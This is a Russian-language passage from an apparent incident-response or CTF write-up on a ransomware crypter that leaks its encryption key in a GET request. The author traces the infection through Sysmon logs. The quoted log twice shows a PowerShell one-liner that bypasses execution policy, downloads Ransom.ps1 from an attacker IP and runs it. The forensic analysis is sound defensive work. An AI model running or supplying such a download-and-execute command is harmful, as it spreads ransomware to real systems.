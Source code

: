 Из кода становится понятно, что мы наткнулись на очередной криптер. Так как он передает в get запросе ключ шифрования и iv (через url), то нам достаточно где-то в логах найти http запрос и мы сможем все расшифровать (и вообще нам нужен только ключ шифрования, так как вектор инициализации передается в начало каждого файла).


Пока лазили и смотрели файлы на системе нашли среди установленных программ `sysmon`, на его логи мы и нацелились в первую очередь. Запустим `eventvwr.msc` ("Просмотр событий") и пройдем по следущей цепочки `Applications and Services Log > Microsoft > Windows > Sysmon > Operational`. Там отсортировав логи sysmon'a по времени и зная время появления зашифрованных файлов, можем найти следущее событие:
```
Process Create:
RuleName: technique_id=T1086,technique_name=PowerShell
UtcTime: 2022-03-05 10:33:43.163
ProcessGuid: {98d53961-0000-0000-83e3-a70400000000}
ProcessId: 4072
Image: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
FileVersion: 10.0.14409.1005 (rs1_srvoob.161208-1155)
Description: Windows PowerShell
Product: Microsoft® Windows® Operating System
Company: Microsoft Corporation
OriginalFileName: PowerShell.EXE
CommandLine: powershell.exe  -ep bypass (new-object system.net.webclient).DownloadFile('http://10.11.200.50/Ransom.ps1','C:\Ransom.ps1');import-module C:\Ransom.ps1; Ransom -IP 10.11.200.50 
CurrentDirectory: C:\
User: company\Administrator
LogonGuid: {98d53961-0000-0000-27c1-a70400000000}
LogonId: 0x4a7c127
TerminalSessionId: 0
IntegrityLevel: High
Hashes: SHA1=88E7CDC0B75364418E11B2C53F772085F1B61D1E,MD5=A575A7610E5F003CC36DF39E07C4BA7D,SHA256=006CEF6EF6488721895D93E4CEF7FA0709C2692D74BDE1E22E2A8719B2A86218,IMPHASH=CAEE994F79D85E47C06E5FA9CDEAE453
ParentProcessGuid: {98d53961-0000-0000-3fe0-a70400000000}
ParentProcessId: 1948
ParentImage: C:\Windows\System32\cmd.exe
ParentCommandLine: cmd.exe /Q /c powershell.exe -ep bypass (new-object system.net.webclient).DownloadFile('http://10.11.200.50/Ransom.ps1','C:\Ransom.ps1');import-module C:\Ransom.ps1; Ransom -IP 10.11.200.50 1> \\127.0.0.1\ADMIN$\__1646476419.946397 2>&1

```

Единственное полезное, что можно вытащить отсюда это, то как малварь попала на машину, ip злоумышленика и точное время этого события. 
```shell
cmd.exe /Q /c powershell.exe -ep bypass (new-object system.net.webclient).DownloadFile('http://10.11.200.50/Ransom.ps1','C:\Ransom.ps1');import-module C:\Ransom.ps1; Ransom -IP 10.11.200.50 1> \\127.0.0.1\ADMIN$\__1646476419.946397 2>&1
```

И, к сожалению, около этого события не нашлось ничего что могло бы помочь нам найти ключ или запрос содержащий его.
